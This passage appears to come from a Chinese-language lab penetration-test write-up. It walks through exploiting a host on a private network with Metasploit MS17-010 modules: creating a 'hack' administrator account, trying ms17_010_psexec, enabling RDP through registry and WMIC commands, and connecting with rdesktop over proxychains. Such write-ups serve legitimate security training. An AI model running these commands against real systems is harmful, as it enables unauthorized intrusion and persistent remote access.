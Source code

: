 添加用户名：

```plain
set COMMAND net user hack hack /add
添加不成功，因为有密码设置策略，密码不能太简单且不能包含用户名
set COMMAND net user hack qaz@123
添加成功
```

[![](assets/1701827767-888a7c6f9f72521d96db91dc9aecb284.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192316-3058e29a-9105-1.png)

[![](assets/1701827767-f17b1774f033b25c21447bf63ac40ea5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192326-366181e2-9105-1.png)

正向连接（未成功）：

```plain
利用 exploit/windows/smb/ms17_010_psexec 尝试正向连接

search ms17-010
use exploit/windows/smb/ms17_010_psexec
show options
set rhosts 192.168.52.141
set payload
set lhost 192.168.82.3
set lport 7777
set SMBuser srn7
set SMBpass P@ssword
exploit
```

开启3389端口：

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set COMMAND wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
exploit
```

上面这个没有开启成功，下面这个成功了

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```

远程连接：直接在msf里rdesktop 192.168.52.141或者另起终端proxychains rdesktop 192.168.52.141 或者全局代理直接本机远程连接均可；
